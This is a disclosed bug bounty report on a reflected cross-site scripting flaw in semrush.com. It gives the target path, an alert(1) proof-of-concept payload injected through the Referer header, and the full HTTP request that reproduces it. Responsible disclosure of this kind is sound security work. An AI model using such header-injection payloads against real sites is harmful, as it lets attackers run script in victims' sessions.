 # Reflected XSS using Header Injection

## Report Details
- **Report ID**: 297203
- **URL**: https://hackerone.com/reports/297203
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-12-12T07:56:28.475Z
- **Disclosed**: 2018-01-18T18:57:11.512Z

## Reporter
- **Username**: inferno-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
Host : www.semrush.com

Path : /billing-admin/profile/subscription/?l=de

Payload : c5obc'+alert(1)+'p7yd5

Steps to reproduce :

Request Header :

GET /billing-admin/profile/subscription/?l=de HTTP/1.1
Host: www.semrush.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5

Overview :

The payload c5obc'+alert(1)+'p7yd5 was submitted in the Referer HTTP header. Payload is copied from a request and echoed into the application's immediate response in an unsafe way.

## Impact

Reflected cross-site scripting vulnerabilities arise when data is copied from a request and echoed into the application's immediate response in an unsafe way. An attacker can use the vulnerability to construct a request that, if issued by another application user, will cause JavaScript code supplied by the attacker to execute within the user's browser in the context of that user's session with the application.

## Attachments
- Semrush_XSS.png
- Semrush_Video_POC.mp4
